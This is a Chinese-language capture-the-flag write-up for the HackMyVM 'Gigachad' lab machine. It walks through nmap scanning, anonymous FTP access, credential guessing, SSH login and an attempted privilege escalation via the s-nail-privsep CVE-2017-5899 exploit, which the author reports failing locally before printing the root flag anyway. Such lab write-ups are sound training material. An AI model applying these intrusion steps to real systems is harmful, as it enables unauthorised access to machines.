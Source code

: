 # Gigachad

:::note

[Linux VM] [Tested on VirtualBox] created by || tasiyanci

⏲️ Release Date // 2021-02-10

✔️ MD5 // 8bf513626e3154e29861b38b23051113

☠ Root // 116

💀 User // 124

📝Notes //
Tested on and exported from virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231254-205406.png)

靶机 IP：

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.113
Host is up (0.00044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6afed61723cb90792bb12d3753974658 (RSA)
|   256 5bc468d18959d748b096f311871c08ac (ECDSA)
|_  256 613966881d8ff1d040611e99c51a1ff4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/kingchad.html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:D9:9A:81 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ftp 服务存在匿名登陆

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $ftp 192.168.56.113
Connected to 192.168.56.113.
220 (vsFTPd 3.0.3)
Name (192.168.56.113:randark): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 .
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 ..
-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
226 Directory send OK.
ftp>
```

将 `chadinfo` 文件下载到本地，发现为 zip 压缩文件

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $file chadinfo
chadinfo: Zip archive data, at least v1.0 to extract
```

解压后得到

```shell
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231201-210140.png)

在原始返回中，发现以下数据

```plaintext
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8
```

尝试访问 ftp 服务中得到的路径 `/drippinchad.png`

![访问 /drippinchad.png](img/image_20231204-210407.png)

目测并不存在隐写，但是经过搜索，得到了图像中的地名：`maidenstower`

结合上文得到的用户名，组合为凭据

```plaintext
chad:maidenstower
```

尝试登录

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $pwncat-cs chad@192.168.56.113
[21:07:34] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
Password: ************
[21:07:39] 192.168.56.113:22: normalizing shell path                                                                                                      manager.py:957
[21:07:40] 192.168.56.113:22: registered new host w/ db                                                                                                   manager.py:957
(local) pwncat$ back
(remote) chad@gigachad:/home/chad$ whoami
chad
```

## user pwned

```shell
(remote) chad@gigachad:/home/chad$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

## 提权探测

```plaintext title="sudo -l"
-bash: sudo: command not found
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

经过查阅资料，`s-nail-privsep` 存在 `CVE-2017-5899` 漏洞，可以用于提权

## `s-nail-privsep` `CVE-2017-5899` 漏洞利用

使用 poc：`https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh`

```shell
(remote) chad@gigachad:/home/chad$ chmod +x s-nail-privsep_CVE-2017-5899.sh 
(remote) chad@gigachad:/home/chad$ ./s-nail-privsep_CVE-2017-5899.sh 
......

```

:::warning

s-nail-privsep 的漏洞我在本地未能利用成功，但是参考其他师傅的writeup，是存在成功的案例的，可能环境存在差异

:::

## root pwned

```plaintext title="/root/root.txt"
832B123648707C6CD022DD9009AEF2FD
```
